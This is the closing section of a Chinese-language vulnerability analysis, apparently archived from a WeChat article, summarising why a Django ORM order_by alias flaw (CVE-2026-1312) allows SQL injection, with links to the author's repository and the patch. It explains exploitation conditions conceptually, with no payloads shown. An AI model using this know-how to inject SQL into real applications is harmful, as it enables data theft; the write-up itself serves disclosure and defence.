  
  
## 0x04 总结  
  
这个漏洞能够被利用成功其实包括以下几个关键点  
  
其一，带有关系运算符.的别名会走RawSQL的拼接逻辑，并且此时没有对后面部分进行引号包括  
  
其二，由于走了orderby 的RawSQl会使得缺失了别名引用计数流程使得最终的别名仅仅出现在orderby中且不存在join  
  
其三，sql语句的orderby支持子查询  
  
这个漏洞的发现者应该对django底层的这一套orm处理逻辑很熟悉，因为最终的原因还是在于django中底层orm处理order_by的逻辑不够严谨。所以开发者不要以为使用了orm了就一定很安全，在特定情况下还是有很多疏漏的，所以作为应用开发者应该基于自身的业务视角做一定的输入限制，避免一股脑全交给框架来防御。  
  
  
ps：上述涉及的代码均可以在我的github仓库上找到  
https://github.com/sw0rd1ight/CVE-2026-1312  
## 0x05 参考  
  
补丁  
https://github.com/django/django/commit/e863ee273c6553e9b6fa4960a17acb535851857b  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
